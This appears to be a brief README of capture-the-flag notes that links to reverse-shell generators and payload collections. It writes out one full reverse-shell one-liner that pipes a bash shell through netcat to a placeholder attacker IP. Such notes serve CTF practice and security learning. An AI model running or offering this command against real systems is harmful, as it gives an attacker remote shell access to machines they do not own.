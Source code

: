 # CTF_WRITEUPS

# Tip to escalation shell

[Reverse shell gen](https://www.revshells.com/)


[Upgrade reverse shell](https://zweilosec.github.io/posts/upgrade-linux-shell/)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/)

Clean terminal reverse shell `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <IP_of_attacker> 5432 >/tmp/f`

# Link to rustpwn tool

[RustPwn](https://github.com/rust-ctf/ctf-pwn)
